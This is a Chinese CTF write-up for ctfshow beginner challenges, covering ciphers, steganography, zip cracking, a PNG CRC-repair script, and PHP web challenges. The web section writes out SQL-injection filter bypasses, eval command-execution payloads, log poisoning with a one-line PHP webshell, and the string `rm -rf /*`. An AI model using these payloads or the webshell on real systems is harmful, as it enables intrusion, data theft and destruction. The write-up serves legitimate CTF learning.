## 萌新\_密码1
遇到这样的编码题，一定要准备工具Cyberchef以及随波逐流

这类题要关注题面以及答案的格式

```plaintext
密文：
53316C6B5A6A42684D3256695A44566A4E47526A4D5459774C5556375A6D49324D32566C4D4449354F4749345A6A526B4F48303D

提交格式：KEY{XXXXXXXXXXXXXX}
```

题目可能会告诉我们编码类型、加密方式，flag格式则特别关键，我们要尽可能让解密过程接近flag格式，简单来说就是凑flag

这里的密文可以肉眼观察，会发现字符都出现在`0-9，a-f`之间，找不到其它超过范围的字符，那么心里应该有猜测，这里是十六进制，比赛的时候，可以直接将密文复制到Cyberchef里，工具可以智能帮助我们进行编码种类预测


一旦出现魔法棒，直接点击即可，一些基本的编码类型预测准确率还是很高的


又出现了一次魔法棒，先看看密文，它在字符集{0-9,a-z,A-Z,=}之间，应该可以猜测是base64编码（我只能说是经验，还有，比赛常考的编码类型就一些常见的，可以挨个试

点击魔法棒，可以确定这里就是base64编码


base64解码后，发现是一可读字符串，这里我凭借经验，可以轻松确定这里是栅栏密码，我说说判断依据

- 存在flag格式中的花括号
- 存在flag头的字母

我再讲解下栅栏密码，它会将一个字符串按照栅栏，平均进行分割，这里的shift就是分割时候的字母，比如说我要编码处理字符串：123456abc

一共9个字母，栅栏密码追求平均分配，那我们就shift=3,恰好分成3组，我们按照上下进行并行处理,然后依次从上往下读

```plaintext
1 2 3
4 5 6
a b c
```

那么它对应的栅栏密码就应该是14a25b36c

回到本题，我们要处理的是`KYdf0a3ebd5c4dc160-E{fb63ee0298b8f4d8}`，如果真的手算的话，难度不大，就是麻烦，要排列长度过大，这个时候，我们可以借助随波逐流，它能帮助我们暴力遍历所有可能的shift，我们在结果中查看满足flag格式的那个即可


将密文复制上去，点击一键解码，向下翻找，可以看到分为2栏的结果（看看其它的情况，就知道如果我们真的手算的话，计算量还是太大了

那么本题的答案应该是`KEY{dffb06a33eeeb0d259c84bd8cf146d08-}`

## 萌新\_密码2

这类题算是那种脑洞题，见见就好了，不要深入研究

查看题目描述，这里的密码和键盘有关，然后再在键盘上看看题目描述的三串字符`rdcvbg 2qase3 6tghu7`会看到它们依次包裹了f,w,y

那么本题答案：KEY{fwy}

## 萌新_密码3

看题目描述，这里和培根密码有关系，知道这个名词就好，可以上网找一些在线解密工具

但是这里有个坑再等我们挑，上网搜索培根密码，会发现它的特征是密文只有两种字符组成，但是本题却出现了四种


注意，空格也算一种字符组成，因此是四种

如果去除斜杠的话，这里明显是一种莫斯密码，这也能解释出空格的作用，否则，我们就要考虑，让`-`​代替`A`​,`.`​代替`B`

下图是我用在线工具进行培根加密的效果，这里不存在第三种字符的


那么本题我们应该清楚怎么处理了，将斜杠删除，然后进行摩斯密码解密


一定要熟练掌握cyberchef，这样的话，我们就能省很大力气进行脚本处理，这里的斜杠我用`FIND / Replace`进行查找去除的

因此本题的答案应该是`flag{MORSE_IS_COOL_BUT_BACON_IS_COOLER_MMDDMDMDMMMDDDMDMDDMMMMMMMDDMDMMDDM}`?

提交上去后发现错误，这个时候关注下我们上面得到的字符串末尾`MMDDMDMDMMMDDDMDMDDMMMMMMMDDMDMMDDM`

它恰好是满足培根密码特征，就是只有两种字符，那么我们尝试将M替换成A，D替换成B，进行培根解密，依旧使用cyberchef灵活处理


注意，Cyberchef自带培根解密工具，得到密文GUOWANG,那么尝试本题flag：`flag{GUOWANG}`

## 萌新_密码#4

这个题和前面考法一样，我就不多说了，依然cyberchef一把梭


> 一般来说，考察的隐写中图片居多，各种图片文件的常规考察知识点会是一样的，所以说啊，你后面遇到不同类型的图片隐写一定要整理出来考点

## 隐写1

本题考察的是png图片隐写，第一步应该是用010 editor查看


会发现到图片无法打开，提示被损坏了，这个时候我们必须掌握常见文件的magic魔数头

比如png中，各种文件的前缀都应该是`89 50 4E 47 0D 0A 1A 0A 00 00 00 0D 49 48 44 52`,在比赛中如果忘记了，可以在本地找个合法的png图片，借鉴参考正常的png结构


常规png文件头，就是前16字节应该是一致的，这里还有个考点，就是zip的明文攻击，也很喜欢用png考察

那么针对本题，解决方案是用010 editor将第一个字节从99改成89，然后保存重新查看图片

记得右键跑下模板，选中png.bt，看看文件是否修复成功了


如果看到successfully，就代表成功了

‍


下图就是我们修复好的flag，得到flag：`flag{zhe_ci_meiyou_ctfshow}`


## 隐写2

这个题挺不错的，还提供了隐写工具jphs，那么解决完本题后，务必将它保存起来，按照我的经验来说，应该是在jpg隐写中经常能用得到这个工具


先open jpeg，选中题目下发得那个jpg文件，然后选择seek，这个是解密提取按钮，如果说出题，就用的是hide


这里的密码也可以是空的，当然，比赛中会经常看到弱密码的那种题目，遇到再说

点击OK后，会弹出一个文件选择框，就新建个flag.txt保存进去好了，处理好后的效果如下：


会看到中间部分确实看到Hidden部分有内容，这意味着我们解密成功

读取刚刚新建的flag.txt文件内容，获取flag：`flag{202cb962ac59075b964b07152d234b70}`

## 萌新 隐写2

这个题目直接下发了压缩包，没有其它注释信息，查看过010 十六进制，也没找到帮助信息，使用zipcenop尝试处理伪加密处理，也没有成功，那么本题只能能弱密码爆破了

建议弱密码爆破的时候，先单纯爆破数字，如果没有爆破出来，再递增爆破字母、符号


注意，长度一定要超过8位，不然这里会爆破失败的

拿到了密码19981000后解压，获取flag内容：`flag{brute_force}`

## 萌新 隐写3

这次的题目附件是一个jpg，首先把它放到010 editor中

跑完jpg的模板后，发现没有问题


然后仔细观看图片内容，发现能直接读出来flag：`flag{xinti_gkd}`


## 萌新 隐写4

题目附件是doc文件，如果是docx就考察知识点docx也是zip文件这个考点，但是针对本题，考点就是常规的隐藏文字了，对于doc，我们可以用wps打开


先点击左上角的文件，然后选中选项


在选项中将格式标记中的隐藏文字勾选上，点击确定返回，就能看到flag：`flag{word_stega}`

## 萌新隐写5

用本地notepad打开，看不出来有什么用


不过看到那串不可打印的古中文字符，显然是某种乱码，这个时候我们用010 editor打开，看看有没有可读字符串


一定要点击Hex，这会帮我们将文件按照十六进制打开源代码，右侧是十六进制转换ASCII的结果，解决了那些古典密码的题，应该能对这里有所敏感，直接复制右侧貌似不能成功，可以先选中，使用`ctrl+shift+c`，这样做会将左侧对应的十六进制复制


复制出来后，粘贴到cyberchef中


这个时候就看不到魔法棒了，需要在左侧搜索`from hex`​，将右侧的ASCII恢复出来，然后两字符中间存在00，这在ASCII中可以用`\0`​替换，然后会得到`MZWGCZZINBQW6X3KNF2V6YTVL54W63THL5RDGMS7FE======`

这个时候就能触发魔法棒进行base32解密，读取flag：`flag(hao_jiu_bu_yong_b32_)`

## 萌新隐写6

这次的附件是flac文件，格式很少见，但是电脑的默认打开方式告诉我们，这里是音频文件


遇到这类音频隐写题，一般遇到wav比较多，但是处理方法很接近，都是用Audacity查看波形图或频谱图，从中获取隐写信息


放大一点点，会留意到左声道是摩斯密码，手动敲出来即可


用cyberchef解密，得到明文，套上flag格式：`flag{MUZIKISG00D}`
## 杂项1

看题面，这里需要用在线网站恢复下md5对应的明文，这类题的工具只需要知道有个[cmd5](https://www.cmd5.com/)和[somd5](https://www.somd5.com/)网站就好了，如果这两恢复不出来，那就没辙，那应该考察的是其它知识点了



本题答案：`flag{hello}`

## 杂项2

本题使用010 editor打开，查看文件末尾，发现存在明文flag

那么本题答案：`flag{ctfshow_im_coming}`

## 萌新 杂项3

蛮抽象的题，算是社工类型题面，结合生日等信息，猜测可能的密码



将所有数字拼接起来就好了

## 杂项4

这类题考察的是压缩包掩码爆破，只要提前准备好工具archpr，就能正常进行

根据题面信息，密码一共9位，且都是数字，前三个数字是372，flag的内容就是压缩包密码



按照我图上编辑的，先选择攻击类型为掩码，然后手动输入掩码内容：372??????，接着在暴力范围里选中所有数字0-9，最后打开下发的那个附件即可，爆破速度特别快的，得到本题的flag：`flag{372619038}`

## 杂项5

这题考察你眼神咯，仔细观察，会看到很显眼的花括号，这是flag一定有的，出现在这里并不是意外，是出题师傅故意的



然后再观察文字内容，会发现正文部分几乎都是小写字母，只有个别是大写，就连i都用小写表示，肯定有鬼，仔细检查每个大写字母，发现最开始的是`FLAG{`​,这恰好是flag头，将它们拼接一起，可以得到`FLAG{CTFSHOWNB}`，提交即可

## 杂项6

通过题面描述，这里考察的是伪压缩包，这类题其实也不太算安全题目，它的出题原理就是将压缩包里负责判断是否有密码的标志位从奇数改成了偶数，在Windows下使用解压工具一定会显示这里存在加密

解决方案很多，我说两个

第一个是最轻松的，提前准备好小工具zipcenops，它能将所有可能改动的标志位改回去，保存成新的文件，我们可以直接解压，温馨提示，如果题面没有考察伪加密，用zipcenops导出的压缩包是无法正常解压的



第二个方法贴近原理，我们可以用010 editor将对应的标志位改回去，推荐[这篇文章](https://blog.csdn.net/xiaozhaidada/article/details/124538768)，讲得很好



如何变成无加密呢？



将原本的09覆盖成00即可，对了，这两处的标记在我看来，只有奇数和偶数的区别，比如说00和08效果差不多，就没有必要改变前面的那个标志位了

​<kbd>ctrl+s</kbd>​进行保存，重新解压压缩包，获取到flag：`flag{c_t_f_s_h_o_w}`

## 杂项7

本题考察crc32爆破，出题原理是出题人将png图片的宽高篡改了，一般情况是篡改小了，这会导致一些图片内容显示不出来，这类就考察的是crc32爆破，为啥会和crc32有关系呢？这是因为一个合法的png数据块结构一定包含了对应的crc校验，将它当作哈希即可，关于png的考点，具体可以看我之前在[先知写的文章](https://xz.aliyun.com/news/17831)



在图书馆不能看图片，太尴尬了，得到flag：`flag{beautiful}`

关于我用的脚本，我在先知文章里有写过，这里再复制一次，下次打比赛一定要把工具多积累

```python
import zlib
import struct
import argparse
import itertools
from pathlib import Path

def check_png(bin_data, file_path):
    """检查 PNG 文件头和 IHDR 块完整性"""
    correct_header = bytes([0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A])
    if len(bin_data) < 33:
        return False, f"文件{file_path}太短，不是有效的PNG文件"
    if bin_data[:8] != correct_header:
        return False, f"文件{file_path}不是PNG文件，预期头{correct_header}，实际头{bin_data[:8]}"
    length = struct.unpack('>I', bin_data[8:12])[0]
    chunk_type = bin_data[12:16].decode('ascii', errors='ignore')
    if length != 13 or chunk_type != 'IHDR':
        return False, f"文件{file_path}的IHDR块无效，长度应为13，类型应为IHDR，实际长度{length}，类型{chunk_type}"
    return True, f"文件{file_path}是一个有效的PNG文件"

def repair_png(file_path, bin_data, width, height):
    """生成修复后的 PNG 文件"""
    output_path = str(Path(file_path).with_stem(Path(file_path).stem + '_fixed'))
    try:
        new_data = (
            bin_data[:16] +
            struct.pack('>I', width) +
            struct.pack('>I', height) +
            bin_data[24:]
        )
        with open(output_path, 'wb') as f:
            f.write(new_data)
        return True, f"修复成功，保存为 {output_path}"
    except Exception as e:
        return False, f"保存修复文件失败: {e}"

def main():
    parser = argparse.ArgumentParser(description="通过CRC爆破PNG文件的IHDR宽高并修复")
    parser.add_argument("-f", type=str, default=None, required=True,
                        help="输入同级目录下图片的名称")
    args = parser.parse_args()

    try:
        bin_data = open(args.f, 'rb').read()
    except FileNotFoundError:
        print(f"文件{args.f}不存在")
        return

 
    is_valid, message = check_png(bin_data, args.f)
    print(message)
    if not is_valid:
        return


    ihdr_data = bin_data[12:29]
    original_crc32 = struct.unpack('>I', bin_data[29:33])[0]
    crc32key = zlib.crc32(ihdr_data)
    width, height = struct.unpack('>II', bin_data[16:24])

    print(f"原始宽度: {width}, hex: {hex(width)}")
    print(f"原始高度: {height}, hex: {hex(height)}")
    print(f"CRC 校验: {'通过' if crc32key == original_crc32 else '失败'}")

    if crc32key == original_crc32:
        print("宽高没有问题!")
        return

  
    input_ = input("宽高被改了，是否CRC爆破宽高? (Y/n): ")
    if input_.lower() not in ["y", ""]:
        print("退出爆破")
        return

    common_resolutions = [
        (300, 200), (1920, 1080), (1280, 720), (1024, 768), (800, 600),
        (2560, 1440), (3840, 2160), (512, 512), (640, 480)
    ]

    print("\n开始 CRC 宽高爆破：")
   
    for i, j in common_resolutions:
        data = (
            bin_data[12:16] +
            struct.pack('>I', i) +
            struct.pack('>I', j) +
            bin_data[24:29]
        )
        crc32 = zlib.crc32(data)
        if crc32 == original_crc32:
            print(f"\n找到匹配的宽高！")
            print(f"CRC32: {hex(original_crc32)}")
            print(f"宽度: {i}, hex: {hex(i)}")
            print(f"高度: {j}, hex: {hex(j)}")
            
           
            success, repair_message = repair_png(args.f, bin_data, i, j)
            print(repair_message)
            return

 
    print("常见分辨率未找到匹配，尝试穷举 1 到 4095...")
    for i, j in itertools.product(range(1, 4096), range(1, 4096)):
        data = (
            bin_data[12:16] +
            struct.pack('>I', i) +
            struct.pack('>I', j) +
            bin_data[24:29]
        )
        crc32 = zlib.crc32(data)
        if crc32 == original_crc32:
            print(f"\n找到匹配的宽高！")
            print(f"CRC32: {hex(original_crc32)}")
            print(f"宽度: {i}, hex: {hex(i)}")
            print(f"高度: {j}, hex: {hex(j)}")
            
            
            success, repair_message = repair_png(args.f, bin_data, i, j)
            print(repair_message)
            return

    print("\n爆破失败，未找到匹配CRC的宽高")

if __name__ == "__main__":
    main() 
```

我的脚本属于一把梭了，有个古典的手法，我们用010 editor直接将高度拉足够大就好了



注意，一定要跑png模板，会在Variables下面看到ihdr，里面的width控制宽度，height控制高度，将高度拉到1000都行，ctrl+s保存后，图片下面一定能看到flag



效果类似这样

## 杂项8

这题和上题考察点一样，我上一题有个知识点没有讲到，当我们跑完模板后，看到这个crc报错是正常的，因为出题师傅篡改了宽高，crc校验一定会出错，毕竟错误的宽高怎么可能计算出正确的crc呢？



用脚本跑吧，因为图片并不好看，我也不太确定是宽度变量还是高度变了



看得出来，是宽度变了哎，直接看恢复出来的图片，得到flag：`flag{you_are_very_well}`



## 杂项10

这是一道神人出的题，没有技术含量，将图片缩小，会大致看出来五个汉字：我好喜欢你，再套上格式得到flag:`flag{我好喜欢你}`



## 杂项11

依然是个工具题，ctfshow这方面处理的不错，提供要用的工具链接，我看了下，是jphs，这在前面的隐写里遇到过，做法一样



先open jpeg，然后点击seek，它让我们输入密码的时候不用管，这个jphs是支持空密码的，保存解密出来的文件的时候，就命名为output好了，因为我也不晓得是什么文件，需要用010 editor查看



做了这么久的题了，应该很轻松的认出来这是png图片吧，右键跑一下png模板，如果没问题的话，我们将output重命名成output.png

可以看到一个QR code，离线工具用起来感觉一般般，建议使用[在线兔子解码工具](https://tuzim.net/decode/)



得到字符串：`https://ctf.show/?ZmxhZ3vmiJjnpZ7lvZLmnaXlj5HnjrDoh6rlt7HlhL/lrZDlnKjliLfpopjvvIzkuIDmgJLkuYvkuIvlj6zllKQxMOS4h+WwhuWjq+adpeaKpeS7h30=`

看到Zmxh应该条件反射，想起这是base64编码，毕竟flag的base64编码就是Zmxh



base64解码后得到flag：`flag{战神归来发现自己儿子在刷题，一怒之下召唤10万将士来报仇}`
## web1

这是一道php代码审计题

```php
 <html>
<head>
    <title>ctf.show萌新计划web1</title>
    <meta charset="utf-8">
</head>
<body>
<?php
# 包含数据库连接文件
include("config.php");
# 判断get提交的参数id是否存在
if(isset($_GET['id'])){
    $id = $_GET['id'];
    # 判断id的值是否大于999
    if(intval($id) > 999){
        # id 大于 999 直接退出并返回错误
        die("id error");
    }else{
        # id 小于 999 拼接sql语句
        $sql = "select * from article where id = $id order by id limit 1 ";
        echo "执行的sql为：$sql<br>";
        # 执行sql 语句
        $result = $conn->query($sql);
        # 判断有没有查询结果
        if ($result->num_rows > 0) {
            # 如果有结果，获取结果对象的值$row
            while($row = $result->fetch_assoc()) {
                echo "id: " . $row["id"]. " - title: " . $row["title"]. " <br><hr>" . $row["content"]. "<br>";
            }
        }
        # 关闭数据库连接
        $conn->close();
    }
    
}else{
    highlight_file(__FILE__);
}

?>
</body>
<!-- flag in id = 1000 -->
</html> 
```

题面已经帮我们做好了注释，告诉我们，要读取get参数，键是id,有个严重的限制，这里的id键值不能超过999，但是最下面的注释告诉我们，flag在id=1000，怎么绕过呢？

回顾下这里的id参数处理`intval($id) > 999`​，它真的只允许id是整数嘛？答案是否，这里套了一个`intval`​方法，`intval()`​ 处理字符串时，会**从左到右读取，直到遇到第一个非数字字符**，然后返回已读取的整数部分。所以说啊，`id=999`​与`id=999.9`​这两个参数在intval眼里是一样的，都是999，但是参数的本质上不同了，按照php代码逻辑，完成大小判断后，会将id的值完整替换到sql查询语句中`select * from article where id = $id order by id limit 1`，注意，是id完整的值，包括符号什么的哦

考虑下，怎么做才能查询到id=1000呢？末尾有个限制，`order by id limit 1`，只让输出一条，有了，我们可以使用联合查询

使用的前提是前一个id=999应该为空，否则就打不通，哦，我们可以让id变成999.9,就算数据库的表中真的有999条记录，几乎不可能出现999.9吧

好了已经满足联合查询的第一个条件了，让第一个查询为假，第二个查询的话，可以直接写`union select * from article where id=1000`，这代表查找article中id为1000的数据，由于存在union，这相当于或的意思，只会记录前后查询中真正查到的值，拼接结果如下:

​`select * from article where id = 999! union select * from article where id=1000 order by id limit 1`

常规情况下的联合注入会将所有查出来的数据输出，但是本题存在`order by id limit 1`，这会导致结果输出只能输出一条，因此我必须让第一个查询失败，所以我才找的999.9

好了，本题的payload应该是：

```php
?id = 999.9 union select * from article where id=1000
```



对应的url是：

```plaintext
https://1d3bc8e1-02bb-4b32-9135-d720a2738545.challenge.ctf.show/?id=999.9%20union%20select%20*%20from%20article%20where%20id=1000
```

okey，本题solve，答案是`ctfshow{b65414b7-ba99-44da-88b6-73126bc82bb3}`

## web2

本题相对上题加的防护只有这里



解释下，这里通过正则匹配，不限制大小写，查看id的键值里是否出现`or`​或`+`​，这两个关键字在sql注入会经常见到，`or`​是sql逻辑运算符，经常能在布尔盲注里见到，至于`+`​号的话，在url编码中，`+`​可以被解析成空格，所以说有的时候，如果题面正则匹配所有的空格，那么我们打注入空格可以用`+`替代，但是这里的限制和我用union打联合注入有什么关系呢？所以说啊，上一题的payload可以复用

```plaintext
https://55428a45-01f3-444c-b99e-ebc73517fba6.challenge.ctf.show/?id=999.9%20union%20select%20*%20from%20article%20where%20id=1000
```



## web3

本次的waf很严格，看看正则部分



这次正则过滤的模式有以下几种

|模式|转义说明|匹配内容|拦截原因|
| ------| ------------| ------------------------------| -------------------------|
|​`or`|无|字符串 "or"（不区分大小写）|防止`or 1=1`等注入|
|​`\-`|​`\`​转义`-`|连字符`-`|防止注释`--`、负数注入|
|​`\\`|​`\`​转义`\`|反斜杠`\`本身|防止转义绕过、路径注入|
|​`\*`|​`\`​转义`*`|星号`*`|防止`/* */`注释、通配符攻击|
|​`\<`|​`\`​转义`<`|小于号`<`|防止 XSS (`<script>`)、SQL 比较|
|​`\>`|​`\`​转义`>`|大于号`>`|防止 XSS、SQL 比较|
|​`\!`|​`\`​转义`!`|感叹号`!`|防止`!=`​、`not`逻辑运算|
|​`x`|无|字母 "x"（不区分大小写）|防止十六进制`0x...`​、`xml`等|
|​`hex`|无|字符串 "hex"（不区分大小写）|防止`HEX()`函数转换注入|
|​`\+`|​`\`​转义`+`|加号`+`|防止代替空格、算术运算|

emm，看上去蛮严格的，但是这和我用url编码处理有啥关系？

正则匹配一些关键字符，比如说`\*`一般是用于Linux命令中不让被解析成通配符，而得到的

但是我用url编码，`%20*%20`​这里可没有在正则限制`\*`里啊

因此，上面的payload依然可以复用

```plaintext
https://1549be5c-885a-4ef1-820d-cdeb0f19c458.challenge.ctf.show/?id=999.9%20union%20select%20*%20from%20article%20where%20id=1000
```



## web4



这次倒是需要正视下，相较上题，做了这样的改进

|新增模式|含义|拦截原因|
| ----------| ------------------| ----------------------------|
|​`\/`|正斜杠`/`|防止路径注入、HTML闭合标签|
|​`\(`|左括号`(`|防止函数调用、子查询|
|​`\)`|右括号`)`|防止函数调用、子查询|
|​`select`|SQL关键字 SELECT|**防止核心查询语句**|

那么回忆下我的payload

```plaintext
?id = 999.9 union select * from article where id=1000
```

其它的都好绕过，但是核心`select`无法躲避，真的没有办法躲过限制嘛？

在sql语句学习中，存在这个逻辑运算：`||`,它和union看上去很像，但是区别如下：

|维度|​`\|\|` (逻辑或)|​`UNION` (联合查询)|
| ------| ----------------------| ----------------------------|
|**作用**|连接多个条件，筛选行|合并多个查询的结果集|
|**操作对象**|行（WHERE子句中）|结果集（行）|
|**返回结果**|满足任一条件的行|多个 SELECT 结果的上下拼接|
|**列数要求**|无要求|**所有 SELECT 必须有相同列数** |

所以说啊，我原本的payload其实还是弄得有点麻烦了，我有个非常妙的通杀版本

```plaintext
?id = 999.9 || id = 1000
```

这样的话，只要找到一个合法的，直接输出好了



## web5



|新增模式|含义|拦截原因|
| ----------| ----------| --------------------------|
|​`\'`|单引号`'`|防止字符串注入、闭合引号|
|​`\"`|双引号`"`|防止字符串注入、闭合引号|
|​`\|`|竖线`\|`|**关键！** 阻止了`\|\|`逻辑或的使用|

毁了，用`||`失败了

考虑下mysql的运算符，这里[查表](https://www.runoob.com/mysql/mysql-operator.html)找没有被过滤的符号就好了，这里的取反有点说法



在mysql中，这个`~`​是按位取反的位运算符，举个例子，每个字节我们都能用二进制表示，比如说1010，如果我们使用`~1010`，结果就变成了0101

那么这个和我们解题有什么帮助呢？还记得intvar方法嘛？它会从左往右读取键值，遇到符号就停止读取，但是！如果一开始就是符号，它会是默认值0，满足那个小于999的条件，因此我的payload如下：

```plaintext
?id=~~1000
```

进行一次取反，就变成其它数字了，再取反一次，不就变成1000了嘛？

注意，我payload里的是十进制1000，举例子的时候，那里都是二进制，方便你直观看，要是真的对十进制1000取反，结果会变成负数



python和php的环境可能不太相同，但是我大致想表达的就是这样



## web6



本次相对之前多过滤了一个位运算符`^`,它的作用是按位异或，就比如说二进制：10^11=01

简单来说就是对应位上的二进制如果相同，就是0，不同就是1

但是这和我们在web5里用的按位取反没有关系，上一题的payload继续复用



## web7

本关卡增加的限制是上一个题用到的取反符号`~`

那么我们换个角度思考，前面尝试过的手段貌似都是想办法让id里面带有1000，我们用的都是十进制，那么php里的二进制怎么表示的呢？

二进制的形式是0bxxxxxx,这个倒是和python的输出相似



那么我们使用0b1111101000好像能同时满足两个条件

- intvar会认为它仅仅是0，小于999
- php解析它的值，恰好是十进制1000，能锁定我们需要的flag对应的id

那么本题的payload可以直接是

```plaintext
?id=0b1111101000
```



## web8

这题纯脑洞，很无聊，先看看题目提供的代码



我来翻译下，这个index.php包含了config.php，它会读取来自GET请求的参数，键是flag，第一层判断是这个flag参数是否存在不为空，因此用isset

第二层判断是这个参数的值是否于key参数的值一致，但是问题来了，我们并不知道key的键值是什么，它大概率是被config.php定义的，那么就目前情况，完全无解，看了别人的wp后，发现这里是出题人玩的梗



删库跑路的话，相关的常用系统命令是`rm -rf /*`​,我就尝试着提交`?flag=rm -rf /*`,获取到了flag



## web9

考察代码审计



会看到开始先加载config.php，里面一定存在flag的变量定义

然后本php中会读取键名为c的GET请求，正则匹配的时候会不分大小写检测exec和system这两个系统命令，如果检测出来的话，会用eval执行GET请求的c的键值，否则会输出`cmd error`

这里需要注意，eval确实有办法执行系统命令，但是它确切来说是用来执行php语句的，具体的可以看[菜鸟教程](https://www.runoob.com/php/func-misc-eval.html)



那么本题其实考察的是php语句和简单的函数调用，这里的白名单system和exec正好能轻松的执行Linux系统命令，具体自行前往菜鸟教程看细节

我的payload是`?c=system("base64 config.php");`

为啥不用`cat config.php`​呢？针对这类php web服务，能访问得到的，如果以`.php`为后缀，一定会被系统解析，这个时候我们只能看那种php执行中输出的内容(如果内置输出操作)，看不到完整的php代码，那么这个时候，使用系统自带的base64编码文件输出就好了（我解释的好像不太对，cat config.php也能打，在空白页面中查看源代码就能读取到原flag，奇怪，理论上，一旦被解析，我们是读不了这样没有输出能力的php文件





得到flag内容：`ctfshow{7cc763e9-6d68-4284-85df-21fd213dcbba}`

## web10



上一题还是白名单，这一题就变成了黑名单，不过没啥问题，eval自身就有执行代码的能力，这次我们使用php内置的readfile函数即可

```plaintext
?c=readfile('config.php');
```

温馨提示，直接在网页端看不到是正常的，可以`ctrl+u`看源码



## web11

黑名单，相较上题，多ban了两个单词：highlight,cat



但是我们上一题好像没有用过这两，那么上一题的payload复用



## web12

这回有点狠,将关键的config和php给禁用了

```php
<?php
# flag in config.php
include("config.php");
if(isset($_GET['c'])){
        $c = $_GET['c'];
        if(!preg_match("/system|exec|highlight|cat|\.|php|config/i",$c)){
                eval($c);
        }else{
            die("cmd error");
        }
}else{
        highlight_file(__FILE__);
}
?>
```

遇到这样的jail题，如果说不让明文写，我们就走编码，php内置了一个base64解码的函数`base64_decode("")`

那么套用上一题的payload,将config.php进行base64编码不就可以了嘛？



```php
?c=readfile('config.php');  #web11
?c=readfile(base64_decode("Y29uZmlnLnBocA==")); #web12
```



## web13

这次不允许出现file，那我前面的readfile可就寄了啊，得再找找其它的函数，能执行命令就行



不赖，找到一个passthru()



那么本题就要改个方式了，大致写个这样的payload：`?c=passthru(base64_decode("Y2F0IGNvbmZpZy5waHA="));`

我貌似有个地方没考虑到，本题还ban了分号，想办法绕过下

我先随意写个最简单的php语句，它的作用是输出hello，有没有发现我在里面没有写分号？这是因为该语句是以`?>`​结尾的，在php中，语句之间是用分号分割的，到最后一条语句就不需要了，`?>`自带结尾结束的标志，因此就不用那个分号了

```php
<?php echo "hello" ?>
```

所以说啊，我可以让读取的c键值直接以?>结尾，这样就不会出现格式错误，正常执行了

因此本题payload

```php
?c=passthru(base64_decode("Y2F0IGNvbmZpZy5waHA="))?>
```



## web14

确实越来越难了，相对上题，本题将左括号给禁用了，那么貌似没办法再使用base64解码了？



回想一下，既然系统会eval($c)，然后eval又只能执行php语句，那么我们让c再读取一个get参数d如何？至于那些被禁的函数功能，和我d有什么关系？

> 想起来了鲁迅说的，你们抓的鲁迅，和我周树人有什么关系？哈哈哈

那么这把应该这样处理

```php
?c=echo `$_GET[d]` ?>&d= cat config.php
```



我来解释下，为哈要给那个`$_GET[d]`加上反引号，在php语法中，反引号可以直接当作shell_exec()函数，执行反引号内任意系统命令



倘若我们不加反引号，就无法解析那个d参数，最终得到的效果仅仅是echo d，将参数内容再输出一次而已

## web15

感觉这次蛮无解的，不过我们仔细观察，它这里居然没有再ban分号



那么上一关的这个`` ?c=echo `$_GET[d]` ?>&d= cat config.php ``​改改用不就好了，既然把封闭符号`>`​给ban了，我们就把它替换会分号`;`，提交后发现成功了



## web16

这次的代码需要认真审计



读取一个GET参数，键名是c，获取flag只有唯一一个要求，ctfshow+c的键值拼起来的md5哈希值是`a6f57ae38a22448c2f07f3f95f49c84e`

这里还是强比较，我暂时没有想到可能的漏洞点



使用somd5在线爆破网站成功解密哈希明文：ctfshow36d，那么我们应该给c的键值设置为36d，这样就能获取flag



## web18



考察文件包含？但是php和file伪协议貌似都打不了

那么针对这题我们只能打日志文件包含，将一句话木马写入到某个请求的head中，发送请求后，日志文件一定会包含那个php一句话木马，接下来剩下最关键的一个步骤，必须以php文件格式来解析那个log文件，正好这里的include满足我们的需求，那么这把稳了，先写php代码吧，先用`phpinfo();`这个看上去会很显眼



然后点击execute发送这个添加了user-agent的包，回到页面，这次发送`?c=/var/log/nginx/access.log`



成功看到phpinfo特有的紫色头，就知道这个打法没有问题，按照刚刚的方法，这次写个一句话木马`<?php system($_GET[1]); ?>`



然后每次get请求的时候带上1，后面跟上Linux系统命令即可

就比如说下面的`?c=/var/log/nginx/access.log&1=id`



用ls可以看到当前路径存在文件36d.php，千万不要直接用cat 36d.php命令，因为当前页面可是会解析所有php语句的，我们可以将36d.php编码成base64,然后解码得到flag





## web19



感觉和上一题差不多，都是打日志包含，就多ban了一个base,这完全可以payload复用

先写马



然后包含日志并执行命令



依旧base64编码处理



> 如果你想问，题目明明ban了base,为啥我还能用base64，那就说明你没有读懂代码，明明正则过滤的是参数c，和我的参数1有啥关系呢？

解码后获取flag



## web20

原来还有不少其它的方法嘛？我打日志包含好像通杀







做法一样，后面就不多说了

## web21

emm，依旧通杀




